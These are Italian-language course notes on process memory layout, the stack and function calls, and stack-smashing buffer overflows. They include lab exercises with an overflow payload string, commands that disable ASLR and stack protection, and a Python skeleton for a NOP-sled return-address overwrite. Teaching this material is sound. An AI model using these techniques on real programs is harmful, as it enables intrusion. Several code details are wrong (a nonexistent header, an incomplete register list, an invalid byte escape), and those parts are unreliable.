

<style>
    strong{
        background-color:#faf43e;
        color: black;
        padding:0.1rem 0.2rem;
        border-radius:5px;
    }
</style>

# Memory Error Exploits - Smashing the stack

è la tecnica usata morris per internet worm

Il primo articolo che parla di Smashing dello stack è di Aleph One pubblicato su [Phrack](http://phrack.org/issues/49/14.html)
>Su molti programmi C è possibile corrompere lo stack durante la fase di esecuzione attraverso overflow di un array dichiarato. Il codice che fa quest'operazione di chiama Smashing the Stack. Con questo metodo si può variare l'indirizzo di ritorno "Return Address RA" da una funzione.

La memoria di un processo da Linux a Windows cambiano solo indirizzi di riferimento.


* **Stack** (cresce verso zero (basso)), se Stack pointer incontra Heap pointer non c'è più memoria libera. contiene Variabili locali della funzione, Return Address, ecc.
* Memory Mapping Segment.
* **Heap** (cresce verso alto): viene utilizzato per allocare variabili che richiedono uno spazio dinamico attraverso `malloc, new`. è uno spazio condiviso tra librerie e moduli caricati dinamicamente. (es. `malloc` (2*sizeof int) alloca 8byte).
* **BSS Segment** (Block Started by Symbol): Contiene **variabili non-inizializzati Statici e Globali**.
* **Data segment**: Contiene **variabili inizializzati Statici e Globali**, a sua volta può essere classificato in due aree **Read-Only** (costanti), **Read/Write** (Variabili Globali, es. Array) che possono essere cambiati a runtime.
* **Text Segment**: **Il programma** in binario (ELF), normalmente è read-only e condivisibile.

```c
#include <stdin.h>

int x = 100;

int main(){
    // data stored on stack
    int a = 2;
    float b = 2.5;
    static int y;

    // allocate 8 bytes of memory on heap
    int *ptr = (int *) malloc(2*sizeof(int));
    // values 5 and 6 stored on heap
    ptr[0] = 5;
    ptr[1] = 6;

    //deallocate memory on heap
    free(ptr);

    return 1;
}
```

## Perché si usa lo stack?
Perché è molto comodo; è dovuto alla sua struttura dati implicita LIFO che rispecchia fedelmente le sequenze di chiamate delle funzioni/procedure all'interno di un programma, questo semplifica le operazioni.

Inoltre, lo viene usato per motivi di ottimizzazioni, perché lo stack è un'area unica, viene usata da tutte le procedure sia da main che da sottoprocedure. Quando una procedura viene chiamata gli viene allocato dello spazio sullo stack e quando termina viene lo spazio viene deallocato, cosi facendo lo stesso spazio può essere riutilizzato dalla procedura successiva. Se dovessimo allocare tutte le variabili all'interno di una sezione dovremmo allocare molto spazio, invece usando lo stack si può allocare quando servono e cancellare quando non servono più.

**NOTE**: i dati possono essere inseriti sullo stack in multipli di 64bit (8 byte) **QWORD**.

Molti CPU hanno istruzioni (`push`, `pop`), registri (`rsp`, `rbp`) dedicati per operazioni sullo stack.

In un sistema, ogni processo ha il suo stack. E spesso l'OS ha uno suo è il giga in alto (in 32bit).

Il registro `RSP` contiene l'ultimo indirizzo dello stack corrente.

`SS` **Stack Segment**, identifica il blocco di memoria utilizzato per lo stack del processo attualmente in uso.

### Push
`push` diminuisce di 8 (verso basso) e carica il dato dentro l'indirizzo di memoria rappresentato da `rsp`.

`push reg` oppure `imm`
    
    sub rsp, 8
    mov [rsp], reg/imm

**Non si può** fare `push `di una **locazione di memoria**. 

### Pop
Carica dentro il registro `reg` il contenuto e sposta `rsp` di 8 verso alto.

`pop reg `

    mov reg/mem, [rsp]
    add rsp, 8

### Esercizio
Scrivere un programma in assembler che inverte il contenuto di una stringa data.

    Hello World!
    !dlroW olleH

# Stack and Function Calls
Ogni volta che chiamiamo una funzione tutte le variabili locali vengono allocate sullo stack, i parametri delle funzioni, il return address, il base pointer, ecc.

## Stack Frame
**L'insieme di informazioni necessari per far funzionare una funzione** è chiamato lo _Stack Frame_. 

```c
#include <stdio.h>

int main(){
    int x = foo(10);
    printf("The value of x = %d\n", x);
    return 0;
}

int foo(int i){
    int ii = i+1;
    int iii = bar(ii);
    int iiii = iii;
    return iiii;
}

int bar(int j){
    int jj = j + j;
    return jj;
}
```

* Stack frame del `main()` contiene:
* variabile `x`
* `10` parametro passato a `foo()`
  * Stack frame di `foo()`:
  * `ii`
  * `j` parametro passato a `bar()`
    * Stack frame di `bar()`:
    * `jj`
  * `iii`
  * `iiii`


Ogni volta che una funzione viene chiamata, viene creata lo stack frame. La memoria allocata all'interno dello stack per la funzione viene mantenuta finché non termina la funzione.

Lo stack frame è delimitato con due registri `rbp` rappresenta l'inizio dello stack frame e `rsp` fine.

```c
#include <stdio.h>

void bye1(){ puts("Goodbye!"); }
void bye2(){ puts("Farewell!"); }

void hello(char *name, void (*bye_func)()){
    printf("Hello %s!\n",name);
    bye_func();
}

int main(int argc, char **argv){
    char name[1024];
    gets(name);

    srand(time(0));

    if(rand() % 2) hello(bye1,name);
    else hello(name,bye2);
}
```
* parte il programma,
* alloca un buffer di `1024 byte` chiamato name,
* chiama `srand` con parametro `time(0)`,
* esegue if, chiama `hello` con un puntatore a funzione, l'indirizzo di name
* altrimenti `hello` con parametri invertiti, (shellcode = bye2).
  
## La gestione degli indirizzi di ritorno
Quando siamo all'interno della main facciamo call alla funzione, dobbiamo tornare alla istruzione successiva della `call`.

### CALL
l'istruzione `call` salva sullo stack il valore dell'instruction Pointer `rip` successivo all'istruzione `call`, cioè Return address `RA` (indirizzo di ritorno) e fa un salto `jmp` incondizionata alla funzione.

### RET
L'istruzione `ret` fa un `pop` dallo stack l'instruction pointer `rip` salvato prima.

Il problema dello stack pointer con `ret` è che bisogna ricordarsi la posizione sullo stack dove abbiamo memorizzato l'indirizzo di ritorno. Altrimenti, `ret` prende l'indirizzo puntato da `rsp` e salta.

## Parametri delle funzioni secondo convenzione Linux x64
**Fino 6 parametri** si usa la convenzione linux 64bit `rdi, rsi, rdx, r8, r9`, se supera 7 parametri il resto si carica sullo stack.

Il compilatore che si occupa di caricare nei registri i parametri della funzione.

```c
long myfunc(long a, long b, long c, long d, long e, long f, long g, long h){
    long xx = a * b * c * d * e * f * g * h;
    long yy = a + b + c + d + e + f + g + h;
    long zz = utilfunc(xx, yy, xx % yy);
    return zz + 20;
}
```


### RED ZONE (Secondo AMD64)
>The 128-byte area beyond the location pointed to by %rsp is considered to be reserved and shall not be modified by signal or interrupt handlers. Therefore, functions may use this area for temporary data that is not needed across function calls. In particular, leaf functions may use this area for their entire stack frame, rather than adjusting the stack pointer in the prologue and epilogue. This area is known as the red zone.

[More info](https://eli.thegreenplace.net/2011/09/06/stack-frame-layout-on-x86-64)

## RBP
Registro Base Pointer `rbp` viene usato per ricordare la posizione sullo stack dove è stato salvato il return address `RA`.

### Prologue
Prima di ogni chiamata a funzione il compilatore inserisce all'interno della funzione (dentro la funzione che viene chiamata) un **prologo**.
1. Viene salvato `rbp` sullo stack, 
2. Metto dentro `rbp` il valore di `rsp`,
3. Riservo un po' di spazio nello stack per variabili locali (opzionale).

```s
push rbp
mov rbp,rsp
sub rsp, tot
```

### Epilogue
Prima del `ret` il compilatore aggiunge un **epilogo** come segue:
1. Sposta dentro rsp il valore di `rbp`,
2. Ripristina il valore di `rbp`,
3. Return `ret`.
```s
mov rsp, rbp
pop rbp
ret
```

```s
# inizio prologo
    push rbp
    mov rbp,rsp
    sub rsp, tot
#fine prologo

# Codice della funzione

# inizio epilogo
    mov rsp, rbp
    pop rbp
    ret
#fine epilogo
```
Note: `rbp` punta all'inizio di stack e `rsp` si muove liberamente.

Prima cosa che fa `call` è mettere sullo stack i parametri e poi carica il return address.

# Buffer Overflow Attacks

## Esercizio 1 - Stampare "You Win" 
~~~c
#include <stdio.h>

int main(){
	char buf[80];
	int cookie;
	
	printf("buf: %08x cookie: %08x\n",&buf,&cookie);
	gets(buf);

	if(cookie == 0x41424344)
		printf("You Win!\n");
}

// Solution: python -c "print('A'*92+'DCBA')"
~~~
~~~s
1189:       f3 0f 1e fa             endbr64 
118d:       55                      push   %rbp
118e:       48 89 e5                mov    %rsp,%rbp
1191:       48 83 ec 60             sub    $0x60,%rsp
1195:       48 8d 55 fc             lea    -0x4(%rbp),%rdx
1199:       48 8d 45 a0             lea    -0x60(%rbp),%rax  # <- OFFSET è 96 in decimale
119d:       48 89 c6                mov    %rax,%rsi
11a0:       48 8d 3d 5d 0e 00 00    lea    0xe5d(%rip),%rdi  # 2004 <_IO_stdin_used+0x4>
11a7:       b8 00 00 00 00          mov    $0x0,%eax
11ac:       e8 cf fe ff ff          callq  1080 <printf@plt>
11b1:       48 8d 45 a0             lea    -0x60(%rbp),%rax
11b5:       48 89 c7                mov    %rax,%rdi
11b8:       b8 00 00 00 00          mov    $0x0,%eax
11bd:       e8 ce fe ff ff          callq  1090 <gets@plt>
11c2:       8b 45 fc                mov    -0x4(%rbp),%eax
11c5:       3d 44 43 42 41          cmp    $0x41424344,%eax
11ca:       75 0c                   jne    11d8 <main+0x4f>
11cc:       48 8d 3d 49 0e 00 00    lea    0xe49(%rip),%rdi  # 201c <_IO_stdin_used+0x1c>
11d3:       e8 98 fe ff ff          callq  1070 <puts@plt>
11d8:       b8 00 00 00 00          mov    $0x0,%eax
11dd:       c9                      leaveq 
11de:       c3                      retq   
11df:       90                      nop
~~~

## Come si risolve? 
1. Compilo `gcc -g -z execstack -fno-stack-protector -o a.out a.c`.
2. Controllo con `objdump -M intel -d file_binario` l'offset che serve.
3. Trovato l'offset (96 bytes) devo togliere i 4 byte di `cookie` perché cookie deve essere una stringa fatto così `"ABCD"`, quindi l'offset è di 92 = 96-4. 
   
   NOTE: Stringa deve essere in LITTLE-ENDIAN, quindi "DCBA" e non "ABCD".

4. Quindi, la stringa è fatta così: `python -c "print('A'*92+'DCBA')"`. Cioè una stringa con 92 A seguito dalla nostra stringa "DCBA".

Questo è possibile perché la funzione `gets()` non controlla la dimensione dell'input.

Per evitare stack smashing compilatore inverte l'ordine. In questo modo andiamo riscrivere dati del sistema cosi il sistema se ne accorge e manda il segnale `Segmentation Fault`.

Flag da mettere per **disabilitare stack smashing** è: `-fno-stack-protector`.

## Esercizio 2 - da fare a casa
~~~c
#include <stdio.h>

int main(){
    int cookie;
    char buf[80];

    printf("buf: %08x cookie: %08x\n", &buf, &cookie);
    gets(buf);

    if(cookie == 0x01020305)
        printf("You Win!\n");
}
// Hint - sovrascrivere il return address in (little endian), quando main termina salta alla istruzione del printf.
~~~

## Memory corruption exploits
* Stack overflow
* Heap overflow
* Format string
* Integer overflow
* Return to libc

Abbiamo un programma vulnerabile, per predisporre il codice per l'attacco (il shellode), esistono due strategie: 
1. Saltare in una zona di memoria dove abbiamo **precedentemente iniettato** del codice.
2. Saltare a un **codice già presente in memoria**, un attacco di tipo `ret2libc` dove il shellcode può essere ricavato mettendo insieme dei parti di codici presi dalle librerie di sistema operativo, quindi, caricate in user space.

### Hijacking del flusso di controllo
Hijacking: prendere il controllo del flusso di controllo.

```c
int x = 0;
int function(){ x = x + 13;}
void main(){
    x = function(x);
    x = 10;
    printf("Value of x = %d\n",x);
}
```
Questo codice non modifica il flusso x = 10;

## Esercizio 3
Questo esercizio mostra che possiamo modificare il flusso di un programma.

~~~c
#include <stdio.h>
int x = 0;

int function(){
    int * ret;
    x = x + 13;
    ret = (int *) &ret + 16 // or 8
    (*ret) = (*ret) + 8; // XX numero da trovare
}
int main(){
    x = function();
    x = 10;
    printf("Value of x = %d\n", x);
}
~~~

* funzione `function()` parte e fa `x + 13`,
* assegna all'indirizzo di `ret + 8`,
* indirizzo `ret` dovrebbe puntare a `RA` return address,
* adesso al RA return addres sommo un numero per arrivare a printf del main
cosi faccio saltare alcune istruzioni.

NOTE: dovrebbe essere `&ret + 16` su 64bit invece di 8.



Stack del main:
`ra, x`

Stack del funzione function
`ra, old rbp, ret (è la variabile), x + 13`


## Useful commands
primi due per buffer overflow
* Compile:
  - `gcc -fno-stack-protector -z execstack -g`
* Disable ASLR (disabilitare protezioni di kernel contro buffer overflow):
  - `echo 0 > /proc/sys/kernel/randomize_va_space` disabilità la randomizzazione
  - `sudo sysctl -w kernel.randomize_va_space=0`
* Enable core dump (per aumentare/abilitare il core dump (il contenuto della memoria al momento di un crash)):
  - `ulimit -c unlimited`
* View core dump (per vedere core dump in gdb)
  - `gdb -q executable core`
* `0x90` codice operativo della istruzione assembler `NOP`
* ricordare di usare `little endian`


### Exploit via python
```py
#!/usr/bin/env python
# yy = buffer dimension
buf = b"\x90" * yy
# address for overwriting return address
buf += b"\xaa\xbb\xcc\xdd\xee\xff\xgg\xhh" # address
f = open("in.txt", "wb")
f.write(buf)

# $ progToExploit < in.txt
```

